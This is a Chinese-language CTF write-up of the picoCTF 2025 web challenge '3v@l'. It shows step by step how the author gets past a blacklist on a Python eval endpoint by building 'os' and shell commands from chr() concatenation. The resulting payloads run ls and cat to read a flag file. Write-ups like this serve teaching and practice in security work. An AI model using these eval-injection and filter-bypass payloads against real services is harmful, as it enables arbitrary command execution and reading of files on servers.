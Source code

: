 ##### tags:`picoCTF_2025`

# picoCTF Web : 3v@l

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

## <span class="red">**題目**</span>

- ![image](https://hackmd.io/_uploads/BkLEHDV21l.png)
- ![image](https://hackmd.io/_uploads/B16qHP4h1e.png)

## <span class="red">**解題過程**</span>

1. **進到網頁後，先打開 DevTools 看看網頁有沒有甚麼線索。會發現有 html 的註解說明我黑名單會擋掉哪些資訊**

- ![image](https://hackmd.io/_uploads/rJ4WUv4h1x.png)

&emsp;

2. **根據題目給的提示，看似沒有檔 ```__import__``` 這種 function 。那就先試試看 ```importlib.__import__("\157\163")```，這等價於 ```importlib.__import__("os")```**

- ![image](https://hackmd.io/_uploads/rJmciPE31l.png)

3. **在 Execute 後網頁跳出了 Error ，訊息說明有擋掉某個內容(應該是有擋掉八進位編碼)，所以這裡嘗試看看用字元拼接的方式，像是把 os 拆成 ```chr(111)+chr(115)``` ， Execute 後會發現錯誤訊息變成 ```importlib``` 未定義**

- ![image](https://hackmd.io/_uploads/ryewsv421l.png)
- ![image](https://hackmd.io/_uploads/Sy5YawE3Je.png)
- ![image](https://hackmd.io/_uploads/By0O6v431g.png)

&emsp;

4. **所以猜測應該是沒有函式庫，這時候改一下 ```importlib``` 的部份，直接使用 python 內建的 ```__import__``` 函式，
payload 改為 ```__import__(chr(111) + chr(115))```，
其中 ```(chr(111) + chr(115))``` 是 ```os``` 的 ASCII**

- ![image](https://hackmd.io/_uploads/rkAAJ_E3ke.png)
- ![image](https://hackmd.io/_uploads/BkdkluE3ke.png)

&emsp;

5. **看起來是沒問題的，那就可以把後續的 system 也加進去 payload 裡看看效果， payload 會變成 
```__import__(chr(111) + chr(115)).system(chr(108) + chr(115))```
而 ```chr(108) + chr(115)``` 就是 ```ls``` 的 ASCII**

- ![image](https://hackmd.io/_uploads/rJpI-_4nJe.png)
- ![image](https://hackmd.io/_uploads/HJoc-uV21e.png)

&emsp;

6. **結果是 0 ，代表執行成功，但是沒有輸出，所以這裡不要用 system (因為 ```os.system()``` 不會顯示輸出)，改為使用 popen.read()， payload 變為
```__import__(chr(111) + chr(115)).popen(chr(108) + chr(115)).read()```**

- ![image](https://hackmd.io/_uploads/S1d4NdEhJe.png)
- ![image](https://hackmd.io/_uploads/Hy2XVd43ye.png)

7. **當前目錄沒有有用的資訊，所以去根目錄看看，將 payload 改為
```__import__(chr(111) + chr(115)).popen(chr(108) + chr(115) + chr(32) + chr(47)).read()```
其中 ```chr(32)``` 和 ```chr(47)``` 分別是 ```空格``` 和 ```/```**

- ![image](https://hackmd.io/_uploads/Hki8NdVnJx.png)
- ![image](https://hackmd.io/_uploads/SJsDVuNh1l.png)

&emsp;

8. **成功發現 flag.txt ，這時再把 flag 改為 
```__import__(chr(111) + chr(115)).popen(chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103)).read()```
其中 ```chr(99) + chr(97) + chr(116)``` 是 ```cat``` ， ```chr(47) + chr(102) + chr(108) + chr(97) + chr(103)``` 是 ```/flag```**

- ![image](https://hackmd.io/_uploads/SkqFHd4hkx.png)
- ![image](https://hackmd.io/_uploads/ryBcruE2yx.png)

&emsp;

9. **會發現沒有結果，所以應該跟前面的題目一樣存在權限問題，多加 sudo 試試看， payload 變為
```__import__(chr(111) + chr(115)).popen(chr(115) + chr(117) + chr(100) + chr(111) + chr(32) + chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103)).read()```
其中 ```chr(115) + chr(117) + chr(100) + chr(111) = sudo```，
但還是沒有讀到 flag**

- ![image](https://hackmd.io/_uploads/S1gz9OEhkl.png)
- ![image](https://hackmd.io/_uploads/SyIb9_4h1l.png)

&emsp;

10. **經過一段時間思考我才發現我在檔名的部分寫錯了，題目的 flag 檔檔名是 flag.txt ，所以我在 cat 時應該把副檔名也加上(或是用 ```*``` 匹配所有 flag 開頭的檔案) ，所以這裡先將 payload 改為沒有 sudo 的版本試試看
```__import__(chr(111) + chr(115)).popen(chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(42)).read()```
其中 ```chr(42) = *```
最後成功獲得 flag 而不需要超級使用者 (sudo) 的權限**

- ![image](https://hackmd.io/_uploads/Bk-o9erhye.png)
- ![image](https://hackmd.io/_uploads/H1eSieB2yl.png)

&emsp;

## <span class="red">**心得**</span>

1. **在解完題目後我有個疑問，如果可以使用字元拼接的方式，那我能不能直接用字母拼起來呢?所以我嘗試了
```__import__('o' + 's').popen('l' + 's').read()```**
這段 payload 先試試看能不能顯示當前目錄的內容，答案是可以的

- ![image](https://hackmd.io/_uploads/HJKHngBnkl.png)

&emsp;

2. **也因此，我將最終 payload 改為
```__import__('o' + 's').popen('ca' + 't ' + chr(47) + 'flag*').read()```
這樣寫目的是把 ```cat``` 指令拆分開(且在字母 t 後方補上 ```cat /flag*``` 之間的空格)，以及題目有擋 ```/``` ，所以必須要用 chr(47) 躲掉檢查。試試看能不能獲得 flag ，最終結果是可以**

- ![image](https://hackmd.io/_uploads/HkUYaer2Jx.png)
- ![image](https://hackmd.io/_uploads/SJG5agrn1l.png)

